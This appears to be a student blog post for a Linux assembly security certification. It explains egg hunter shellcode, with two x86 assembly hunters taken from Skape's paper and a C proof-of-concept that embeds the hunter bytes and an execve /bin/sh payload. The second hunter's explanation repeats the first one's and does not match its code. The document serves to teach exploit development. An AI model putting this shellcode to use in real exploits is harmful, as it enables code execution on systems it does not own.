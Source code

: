 # Assignment #3: Egg Hunter shellcode

- Study about the Egg Hunter shellcode

- Create a working demo of the Egghunter

- Should be configurable for different payloads


---------------------------------------------------


## What is an EggHunter?

It is a very efficient exploitation method when we have little space to store our shellcode which can be seen as a [Staged Shellcode](https://en.wikipedia.org/wiki/Shellcode#Staged).

Summing up, the first part of shellcode will be responsible for searching our 4-byte tag or "egg" in memory and the second part will be stored in some position of the memory, composed of the "egg" and the shellcode to execute (which can be the typical shellcode to spawn a shell, to open a reverse shell...).

Knowing this, the first part is the most important and the one which must be researched carefully. There are many "egghunters" on the internet, but in this case we will focus our study in the ones shown in [the Skape's paper from 2004](http://www.hick.org/code/skape/papers/egghunt-shellcode.pdf).

These egghunters have the three requirements needed: robustness, small size and they are fast. In all of them the author uses 8-byte "eggs", which means that the tag is used twice. The technique is based on the system calls, given they can "*validate process-relative memory addresses without leading to a segmentation fault or other runtime error in the program itself*", using them to check if the memory is readable and later if the tag has been reached.


## EggHunter study
The two egghunters studied use the same syscall: access.

![Screenshot](images/1.png)


### Egghunter 1

From the code in page 8 it is possible to extract the first egghunter, with a size of 39 bytes and an estimated speed in the paper of 8 seconds:

```assembly
global _start

section .text
_start:
  mov ebx, 0x50905090
  xor ecx, ecx
  mul ecx

jump1:
  or dx, 0xfff

jump2:
  inc edx; $edx = Size 4096 bytes
  pusha
  lea ebx, [edx+0x4]
  xor eax, eax
  mov al, 0x21
  int 0x80
  cmp al, 0xf2
  popa
  jz short jump1
  cmp dword [edx], ebx
  jnz short jump2
  cmp dword [edx+4], ebx
  jnz short jump2
  jmp edx
```

This code uses a "page size" of 4096 bytes (0x0fff + 0x0001 = 0x1000 or 4096) which is set in EDX register, EBX register contains the address to validate (current address of EDX plus 4) and EAX contains the value needed for the access system call (0x21). After the system call, EAX is compared with 0xf2 (which represents EFAULT), if the comparison is not met the address value is checked agaisnt the "egg" value twice, contained in EBX register (given the registers value is stored before the system call and restored before checking the address against the "egg" using *pusha* and *popa*).

Finally, it is tested with the "execve" shellcode as payload:

![Screenshot](images/2.png)




### Egghunter 2

From the code in page 11 it is possible to extract the second egghunter, with a size of 35 bytes (so it is smaller than the previous one) and an estimated speed in the paper of 7,5 seconds (so it is faster):

```assembly
global _start

section .text
_start: 

  xor edx, edx

test1:  

  or dx, 0xfff

test2:  
  inc edx
  lea ebx, [edx+0x4]
  push byte 0x21
  pop eax  
  int 0x80
  cmp al, 0xf2
  jz test1 
  mov eax, 0x50905090
  mov edi, edx
  scasd
  jnz test2
  scasd
  jnz test2
  jmp edi
```
This code uses a "page size" of 4096 bytes (0x0fff + 0x0001 = 0x1000 or 4096) which is set in EDX register, EBX register contains the address to validate (current address of EDX plus 4) and EAX contains the value needed for the access system call (0x21). After the system call, EAX is compared with 0xf2 (which represents EFAULT), if the comparison is not met the address value is checked agaisnt the "egg" value twice, contained in EBX register (given the registers value is stored before the system call and restored before checking the address against the "egg" using *pusha* and *popa*).

Finally, it is tested with the "execve" shellcode as payload:

![Screenshot](images/3.png)



### POC code

This is the code of *shellcode.c* for this exercise. As it can be seen, the payload can be easily configured:


```cpp
#include <stdio.h>
#include <string.h>
// TAG or EGG is defined in here
#define egg "\x90\x50\x90\x50"

// unsigned char egghunter[] = EGGHUNTER
unsigned char egghunter[] = "\x31\xd2\x66\x81\xca\xff\x0f\x42\x8d\x5a\x04\x6a\x21\x58\xcd\x80\x3c\xf2\x74\xee\xb8\x90\x50\x90\x50\x89\xd7\xaf\x75\xe9\xaf\x75\xe6\xff\xe7";
// unsigned char shellcode[] = egg egg PAYLOAD
unsigned char shellcode[] = egg egg "\x31\xc0\x31\xdb\x31\xc9\x31\xd2\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x68\x2f\x2f\x2f\x2f\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80";

int main() {

  printf("Egghunter Length:  %d\n", strlen(egghunter));
  printf("Egghunter Egg + Shellcode:  %d\n", strlen(shellcode));

  int (*ret)() = (int(*)())egghunter;

  ret();
}
```



## Useful links 

- Paper: http://www.hick.org/code/skape/papers/egghunt-shellcode.pdf

- Python PoC con Kolibri: https://medium.com/@rafaveira3/exploit-development-kolibri-v2-0-http-server-egg-hunter-example-1-5e435aa84879



---------------------------------------------------


## Note

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification: https://www.pentesteracademy.com/course?id=3

Student ID: SLAE - 1433
